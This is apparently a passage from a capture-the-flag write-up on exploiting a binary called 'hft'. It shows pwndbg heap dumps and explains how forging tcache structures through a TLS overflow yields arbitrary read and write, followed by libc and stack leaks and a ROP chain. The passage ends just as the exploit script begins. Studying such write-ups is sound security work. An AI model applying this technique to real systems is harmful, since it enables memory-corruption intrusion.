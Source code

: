 ```bash
empty
unsortedbin
empty
smallbins
empty
largebins
empty
~~~
pwndbg> telescope 0x7ffff7d6d000 20000
00:0000│    0x7ffff7d6d000 ◂— 0x0
01:0008│    0x7ffff7d6d008 ◂— 0x23002
02:0010│ r9 0x7ffff7d6d010 ◂— 0x22000
03:0018│    0x7ffff7d6d018 ◂— 0x0
... ↓       18130 skipped
46d6:236b0│    0x7ffff7d906b0 —▸ 0x7ffff7fad580 —▸ 0x7ffff7fa9820 —▸ 0x7ffff7f6d1d7 ◂— 0x636d656d5f5f0043 /* 'C' */
46d7:236b8│    0x7ffff7d906b8 —▸ 0x7ffff7fb5340 (_res) ◂— 0x0
46d8:236c0│    0x7ffff7d906c0 ◂— 0x0
46d9:236c8│    0x7ffff7d906c8 —▸ 0x7ffff7f514c0 ◂— 0x100000000
46da:236d0│    0x7ffff7d906d0 —▸ 0x7ffff7f51ac0 ◂— 0x100000000
46db:236d8│    0x7ffff7d906d8 —▸ 0x7ffff7f523c0 ◂— 0x2000200020002
46dc:236e0│    0x7ffff7d906e0 ◂— 0x0
... ↓       2 skipped
46df:236f8│    0x7ffff7d906f8 —▸ 0x55555555a010 ◂— 0x1
~~~
pwndbg> x/32xg 0x55555555a010
0x55555555a010: 0x0000000000000001      0x0000000000000000
0x55555555a020: 0x0000000000000000      0x0000000000000000
0x55555555a030: 0x0000000000000000      0x0000000000000000
0x55555555a040: 0x0000000000000000      0x0000000000000000
0x55555555a050: 0x0000000000000000      0x0000000000000000
0x55555555a060: 0x0000000000000000      0x0000000000000000
0x55555555a070: 0x0000000000000000      0x0000000000000000
0x55555555a080: 0x0000000000000000      0x0000000000000000
0x55555555a090: 0x000055555555afd0      0x0000000000000000
~~~
```
From the TLS link destination, the number of 'tcachebins' and the link destination are managed on the heap. 
If this structure is disguised and 'malloc', it seems that arbitrary parts can be misidentified as 'tcachebins' and secured. 
Fortunately, a huge number of 'malloc' can be written to TLS directly via overflow. 
Also, 'mallocing' a huge number can be repeated multiple times. 
Since data can be written with 'PKT_OPT_PING' and data can be output with 'PKT_OPT_ECHO', AAR and AAW are practically possible. 
All that remains is to perform the following flow using the above technique multiple times.  

1. Put the libc address on the heap and read it with AAR 
2. Read the stack address on libc with AAR 
3. Calculate the return address from the stack address and write the ROP with AAW

Note that since the size information is also written in the 'malloc' area, it deviates by 8 bytes from the specified address. 
In addition, since it is necessary to specify options, it is better to think that it can be written from a place that is further off by 8 bytes. 
In the case of a libc address leak, the size information and options are corrupted during AAR, so it will fall when leaked from 'unsortedbin'. 
Therefore, connect two 'largebins' to read the chunk behind it. 
It is unclear how to check the integrity of the link, but from this point on, there is no problem if you communicate with 'smallbins'. 
The following exploit.py is used.  
```python
from ptrlib import *

elf = ELF("./hft")
```